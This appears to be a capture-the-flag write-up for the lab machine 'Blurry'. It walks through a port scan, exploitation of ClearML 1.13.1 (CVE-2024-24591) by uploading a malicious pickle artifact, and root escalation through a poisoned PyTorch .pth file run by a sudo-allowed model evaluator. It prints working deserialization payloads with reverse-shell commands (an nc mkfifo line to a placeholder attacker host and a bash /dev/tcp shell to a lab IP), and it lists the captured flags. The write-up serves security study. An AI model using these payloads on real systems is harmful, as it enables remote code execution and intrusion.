 ### Scan
```
┌──(root㉿kali)-[/home/li0t]
└─# nmap -sVC -p- --open 10.10.11.19
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-10-09 08:57 EDT
Nmap scan report for 10.10.11.19
Host is up (0.12s latency).
Not shown: 64850 closed tcp ports (reset), 683 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
| ssh-hostkey: 
|   3072 3e:21:d5:dc:2e:61:eb:8f:a6:3b:24:2a:b7:1c:05:d3 (RSA)
|   256 39:11:42:3f:0c:25:00:08:d7:2f:1b:51:e0:43:9d:85 (ECDSA)
|_  256 b0:6f:a0:0a:9e:df:b1:7a:49:78:86:b2:35:40:ec:95 (ED25519)
80/tcp open  http    nginx 1.18.0
|_http-title: Did not follow redirect to http://app.blurry.htb/
|_http-server-header: nginx/1.18.0
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 53.26 seconds

```
### Enum
We get a redirect, so lets update our `/etc/hosts`
We brute subdomains and web directories, yielding this:![Image](/assets/Screenshot 2024-10-09 at 1.09.59 PM.png)
Also this:![Image](/assets/Screenshot 2024-10-09 at 1.33.09 PM.png)
Add everything to `/etc/hosts`
Visiting the link, we get a portal. Creating a user gives us access. ClearML is AI software. Rooting around tells us 1.13.1
CVE-2024-24591 ![Image](/assets/Screenshot 2024-10-09 at 1.15.38 PM.png)
Great explanation here: https://hiddenlayer.com/research/not-so-clear-how-mlops-solutions-can-muddy-the-waters-of-your-supply-chain/
We'll need to install clearml with `pip install clearml`
Then, for configuration purposes, create new credentials on the site via settings, and paste into the terminal when prompted.![Image](/assets/Screenshot 2024-10-09 at 1.34.13 PM.png)
Now, we can move on to the python script in order to plant a malicious files on the user via the poisoned dataset with dir traversal
Code meandering we stumble on 'Black Swan', and we can see that it is a script tasked with processing JSON artifacts. We can abuse this functionality by uploading our pickle file and passing it through this function for arbitrary code execution.
```
import pickle  
import os  
from clearml import Task, Logger  
  
  
task = Task.init(project_name='Black Swan', task_name='REV shell', tags=["review"])  
  
  
  
class MaliciousCode:  
    def __reduce__(self):  
  
        cmd = (  
            "rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc attacker-ip attacker-port > /tmp/f"  
        )  
        return (os.system, (cmd,))  
  
  
malicious_object = MaliciousCode()  
pickle_filename = 'malicious_pickle.pkl'  
with open(pickle_filename, 'wb') as f:  
    pickle.dump(malicious_object, f)  
  
print("Malicious pickle file with reverse shell created.")  
  
  
task.upload_artifact(name='malicious_pickle', artifact_object=malicious_object, retries=2, wait_on_upload=True, extension_name=".pkl")  
  
print("Malicious pickle file uploaded as artifact.")
```
Run it ![Image](/assets/Screenshot 2024-10-09 at 1.54.22 PM.png)
Shell as jippity! Stabilize shell
sudo -l ![Image](/assets/Screenshot 2024-10-09 at 1.56.37 PM.png)
we'll play with that in a second. First, grab user flag, and notice ssh private key!
user:3f27bf4798adad24993c80ea10ec74d9
create file and chmod 400 to ssh back in
`vim rsa.key` paste. Make sure to include begin and end part
`chmod 400 rsa.key`
`ssh -i rsa.key jippity@10.10.11.19`
![Image](/assets/Screenshot 2024-10-09 at 2.03.39 PM.png)
### Priv esc
remember the nopasswd? here we go. 
Lets create a py script that drops a malicious pth file so taht we can eecute
`vim evilpath.py` and use
```
import torch
import os

class Payload:
    def __reduce__(self):
        return (os.system, ("/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.11/9001 0>&1'",))

evil = Payload()
torch.save(evil, 'evil.pth')
```

then to run, `python3 evilpath.py` followed by `cp evil.pth /models && sudo /usr/bin/evaluate_model /models/evil.pth`. It should hang

Your listener set at 9001 should catch the root shell!

Root:45ab0078950cb8dbd2d3ea188f62f389

GET INTO THE WEEDS WRITING THIS MF. alal of em for that matter

